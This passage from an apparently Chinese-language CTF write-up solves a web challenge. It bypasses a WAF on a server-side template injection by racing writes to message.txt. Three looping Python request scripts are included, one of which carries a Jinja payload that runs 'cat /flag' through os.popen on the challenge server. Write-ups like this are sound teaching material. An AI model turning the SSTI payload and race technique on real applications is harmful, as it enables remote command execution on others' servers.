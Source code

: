 可以看到/read路由存在ssti，但是他waf掉了最重要的{

但是可以看到这个/send路由会将传入的信息写入message.txt文件，在访问/read路由的时候则会读取message.txt文件。这么一来我们就可以考虑通过竞争的方式来绕过waf了。竞争思路大概就是我在很短的时间内连续发送两条信息，第一条信息是合法信息，而第二条信息是不合法的，那么就会存在一种情况，当第一条信息通过了判断，接下来要将文件的内容插入到模板中渲染的时候，刚好第二条不合法的信息覆写了message.txt，那么插入模板中的就是第二条不合法的信息了

接下来就是搓脚本发包

三个脚本

poc1

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    burp0_data = {"message": "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}"}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.status_code)
    
```

poc2

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    burp0_data = {"message": "123"}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.status_code)
```

poc3

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/read"
    burp0_headers = {"Accept-Language": "zh-CN,zh;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    res = requests.get(burp0_url, headers=burp0_headers)
    # print(res.text)
    if "hgame" in (res.text):
        print(res.text)
        break

```
